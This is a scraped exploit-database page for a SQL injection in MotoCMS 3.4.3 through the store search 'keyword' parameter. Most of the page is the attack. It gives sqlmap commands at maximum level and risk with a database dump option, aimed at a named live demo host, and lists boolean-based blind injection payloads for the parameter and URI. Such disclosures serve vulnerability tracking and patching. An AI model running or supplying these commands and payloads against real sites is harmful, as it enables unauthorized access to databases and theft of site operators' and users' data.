 ```yaml
---
title: MotoCMS Version 3.4.3 - SQL Injection exploit
url: https://sploitus.com/exploit?id=EDB-ID:51504&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-05
fetch_date: 2025-10-04T11:44:18.248215
---
```


# MotoCMS Version 3.4.3 - SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for MotoCMS Version 3.4.3 - SQL Injection

2023-06-04 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51504
# Title: MotoCMS Version 3.4.3 - SQL Injection
# Author: tmrswrr
# Date: 01/06/2023
# Vendor: https://www.motocms.com
# Link: https://www.motocms.com/website-templates/demo/189526.html
# Vulnerable Version(s): MotoCMS  3.4.3

## Description
MotoCMS Version 3.4.3 SQL Injection via the keyword parameter.

## Steps to Reproduce

1) By visiting the url:
https://template189526.motopreview.com/store/category/search/?keyword=1

2) Run sqlmap -u "https://template189526.motopreview.com/store/category/search/?keyword=1" --random-agent --level 5 --risk 3 --batch  and this command sqlmap -u "https://template189526.motopreview.com/store/category/search/?keyword=1*" --random-agent --level 5 --risk 3 --batch --timeout=10 --drop-set-cookie -o --dump

### Parameter & Payloads ###

Parameter: keyword (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keyword=1%' AND 3602=3602 AND 'ZnYV%'='ZnYV

Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: https://template189526.motopreview.com:443/store/category/search/?keyword=1%' AND 6651=6651 AND 'BvJE%'='BvJE
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)